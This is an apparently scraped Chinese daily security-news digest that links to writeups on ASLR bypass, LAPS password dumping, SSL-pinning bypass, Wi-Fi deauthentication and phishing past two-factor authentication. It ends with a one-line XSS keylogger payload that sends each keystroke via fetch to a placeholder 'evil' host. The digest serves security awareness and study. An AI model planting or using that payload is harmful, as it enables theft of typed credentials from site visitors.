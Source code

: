 > 原文链接: https://www.anquanke.com//post/id/86489 


# 【知识】7月26日 - 每日安全知识热点


                                阅读量   
                                **89201**
                            
                        |
                        
                                                                                    



[![](https://p0.ssl.qhimg.com/t011c3fdcdb22bede2b.png)](https://p0.ssl.qhimg.com/t011c3fdcdb22bede2b.png)

**热点概要：picoCTF Write-up：通过格式化字符串漏洞绕过ASLR、通过ldapsearch dump LAPS密码、通过Frida绕过Android SSL Pinning、使用ESP8266模块进行身份验证攻击、探索基于语音的身份认证系统命令注入、hackerone官博分享如何进行渗透测试前期的信息收集<strong>**</strong>

**<br>**

**资讯类：**



































IBM启动物联网、车联网安全测试服务

[http://www.securityweek.com/ibm-launches-security-testing-services-cars-iot](http://www.securityweek.com/ibm-launches-security-testing-services-cars-iot) 

<br>



【国际资讯】英国男子认罪，利用Mirai僵尸网络攻击德国电信近百万台路由器

[http://bobao.360.cn/news/detail/4238.html](http://bobao.360.cn/news/detail/4238.html) 

<br>





**技术类：**<br>

****

****

****





****































































































[](http://motherboard.vice.com/read/the-worst-hacks-of-2016)











[](https://feicong.github.io/tags/macOS%E8%BD%AF%E4%BB%B6%E5%AE%89%E5%85%A8/)



[](https://github.com/GradiusX/HEVD-Python-Solutions/blob/master/Win10%20x64%20v1511/HEVD_arbitraryoverwrite.py)



































































































































































picoCTF Write-up：通过格式化字符串漏洞绕过ASLR

[https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920](https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920) 



通过ldapsearch dump LAPS密码

[https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/](https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/) 



通过Frida绕过Android SSL Pinning

[https://techblog.mediaservice.net/2017/07/universal-android-ssl-pinning-bypass-with-frida/](https://techblog.mediaservice.net/2017/07/universal-android-ssl-pinning-bypass-with-frida/) 



使用ESP8266模块进行身份验证攻击

[https://medium.com/@tomac/deauthentication-attack-and-other-wifi-hacks-using-an-esp8266-module-14f9142b063d](https://medium.com/@tomac/deauthentication-attack-and-other-wifi-hacks-using-an-esp8266-module-14f9142b063d) 



Open Sourcing JA3：用于恶意软件检测的SSL/TLS客户端指纹识别项目

[https://engineering.salesforce.com/open-sourcing-ja3-92c9e53c3c41](https://engineering.salesforce.com/open-sourcing-ja3-92c9e53c3c41) 



探索基于语音的身份认证系统命令注入

[https://www.youtube.com/playlist?list=PLl6DAJhNeWAmOcGC38tLlFGdevLniiUmG](https://www.youtube.com/playlist?list=PLl6DAJhNeWAmOcGC38tLlFGdevLniiUmG) 



元数据：黑客最好的朋友

[https://blog.sweepatic.com/metadata-hackers-best-friend/](https://blog.sweepatic.com/metadata-hackers-best-friend/) 



针对有双因子认证站点的钓鱼手段

[http://www.openskycorp.com/resource-center/blog/phishing-way-past-multi-factor-authentication/](http://www.openskycorp.com/resource-center/blog/phishing-way-past-multi-factor-authentication/) 



hackerone官博分享如何进行渗透测试前期的信息收集

[https://www.hackerone.com/blog/how-to-recon-and-content-discovery](https://www.hackerone.com/blog/how-to-recon-and-content-discovery) 



Kali Linux官方书籍



[https://kali.training/downloads/Kali_Revealed_1st_edition.pdf](https://kali.training/downloads/Kali_Revealed_1st_edition.pdf)



Unsupervised Clustering Under Temporal Feature Volatility in Network Stack Fingerprinting

[http://irl.cs.tamu.edu/people/zain/papers/sigmetrics2016.pdf](http://irl.cs.tamu.edu/people/zain/papers/sigmetrics2016.pdf)



XSS Keylogger

```
&lt;img src=x onerror='document.onkeypress=function(e)`{`fetch("//evil?k="+String.fromCharCode(e.which))`}`,this.remove();'&gt;
```

from [@i_bo0om](https://twitter.com/@i_bo0om)


